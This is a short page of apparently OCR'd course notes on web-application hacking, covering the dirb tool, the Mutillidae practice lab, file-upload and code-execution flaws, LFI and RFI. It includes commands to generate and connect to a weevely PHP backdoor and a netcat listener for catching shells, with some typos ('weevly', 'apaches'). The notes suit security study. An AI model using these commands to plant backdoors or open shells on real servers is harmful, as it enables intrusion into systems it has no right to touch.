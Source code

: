 ## chapter 109

Find files & directories in target website

A tool called dirb
> dirb [target url] [wordlist] [options] 

Mutillidae: Born to be hacked

## chapter 111

File upload vulns

Upload a php shell or backdoor, ex: weevly
```sh
# generate a shell
weevly generate [passwd] [file name]
# after uploading the shell
weevly [shell url] [passwd]
help     # show help info
```

## chapter 112

Code execution vulns

```sh
ls; pwd
nc -vv -l -p 8080
```

## chapter 113

LFI: Local file inclusion

- Allows an attacker read any file on the same server.
- Access files outside www directory.

## chapter 114

RFI: Remote file inclusion

```sh
sudo vim /etc/php5/cgi/php.ini
# after modify the php.ini, need to restart
sudo /etc/init.d/apaches restart
```

## chapter 115

remote file should be store as txt. If not it will execute on the remote server, not on the target server.

## chapter 116

